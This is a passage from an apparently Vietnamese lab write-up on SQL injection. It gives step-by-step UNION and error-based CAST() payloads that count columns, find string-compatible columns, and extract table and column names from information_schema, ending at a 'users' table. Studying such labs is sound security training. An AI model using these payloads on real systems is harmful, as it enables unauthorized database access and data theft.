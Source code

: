 Lúc này, bài lab trở về dạng bài khai thác lỗ hổng SQL injection. Trước hết chúng ta xác nhận số lượng cột bằng error-based UNION attack.

- gửi payload: `' UNION SELECT NULL--`

![image](https://hackmd.io/_uploads/BkFrOFeip.png)

lỗi xuất hiện cho thấy câu truy vấn không đúng số cột, đây là lỗi chúng ta mong muốn thu được, chứng tỏ câu truy vấn đang "hoạt động tốt":

![image](https://hackmd.io/_uploads/rJkpIFgsa.png)

Tiếp tục thử với payload`' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--`chúng ta thu được câu truy vấn cần có 8 cột:

![image](https://hackmd.io/_uploads/ByWivtej6.png)

![image](https://hackmd.io/_uploads/SJb1dKgoa.png)

Tiếp theo, kiểm tra kiểu dữ liệu của các cột có tương thích với string hay không và cột nào có thể hiển thị dữ liệu, payload:

```sql!
' UNION SELECT 'column1', 'column2', 'column3', 'column4', 'column5', 'column6', 'column7', 'column8'--
```

![image](https://hackmd.io/_uploads/S16kFYeia.png)

- Như vậy chúng ta có thể khai thác dữ liệu từ cột thứ 4, và dữ liệu hiển thị phải ở dạng số (numberic). Chúng ta có thể sử dụng hàm CAST() để chuyển đổi.

![image](https://hackmd.io/_uploads/ByQ4KYxj6.png)

- Ta đi xác định tên table bằng payload:

```sql!
' UNION SELECT NULL, NULL, NULL, CAST(table_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.tables --
```

![image](https://hackmd.io/_uploads/SJIy5Yxi6.png)

![image](https://hackmd.io/_uploads/B1_Z5Yej6.png)

Thu được tên bảng users, tiếp tục tìm kiếm tên cột, payload:

```sql!
' UNION SELECT NULL,NULL,NULL,CAST(column_name AS numeric),NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name = 'users'--
```

![image](https://hackmd.io/_uploads/HyQccYgip.png)

![image](https://hackmd.io/_uploads/BJZd9tlsa.png)
